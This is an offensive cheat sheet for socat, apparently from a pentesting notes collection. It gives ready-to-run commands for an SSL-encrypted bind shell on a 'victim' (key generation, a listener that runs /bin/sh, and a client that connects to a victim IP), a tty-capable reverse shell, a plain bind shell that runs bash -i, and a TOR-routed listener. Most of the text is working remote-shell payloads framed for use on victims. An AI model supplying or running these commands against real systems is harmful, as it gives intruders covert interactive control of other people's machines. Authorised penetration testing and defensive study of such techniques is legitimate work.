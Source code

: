 # socat

## socat ssl protected bind-shell
### generate ssl key-pairs localy
``` cheat socat generates all keys for ssl bind-shell
echo -e "\n\n\n\n\n\n\n" | openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 30 -out server.crt && cat server.key server.crt > server.pem && openssl genrsa -out client.key 1024 && echo -e "\n\n\n\n\n\n\n" |openssl req -new -key client.key -x509 -days 3653 -out client.crt && cat client.key client.crt > client.pem && chmod 600 server.* && chmod 600 client.*
```
### transfer server.pem & client.cr to victiom

## spawn socat bind-shell
``` cheat socat create ssl bind-shell
socat OPENSSL-LISTEN:8433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
```

## connect to ssl bind-shell
``` cheat socat connet to ssl bind-shell
socat STDIO OPENSSL-CONNECT:<VICTIM-IP>:8433,cert=client.pem,cafile=server.crt,verify=0
```

## reverse Shell with tty support  run on victim
```cheat socat reverse Shell with tty support run on victim
socat -,raw,echo=0 tcp-listen:4545
socat tcp:127.0.0.1:4545 exec:"bash -i",pty,stderr,setsid,sigint,sane
```

## socat connect to TCP 4444
```cheat socat simple connect
socat -d  READLINE,history=$HOME/.socat_history TCP4:4444,crnl
```

## socat listen on TCP 443
```cheat socat listening
socat -d  READLINE,history=$HOME/.socat_history TCP-LISTEN:443,crnl,fork,reuseaddr,retry
```

## socat connect via SSL to TCP 8443
```cheat socat connect via SSL
socat -d  READLINE,history=$HOME/.socat_history OPENSSL:8443,verify=0,crnl
```

## socat listen via TOR 8443
```cheat socat listen via TOR
socat -d  READLINE,history=$HOME/.socat_history SOCKS4:127.0.0.1:8443,socksport=9050
```

## bind shell - on victim
```cheat socat bind shell - on victim
socat TCP-LISTEN:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
```


tags: socat shell connect listen

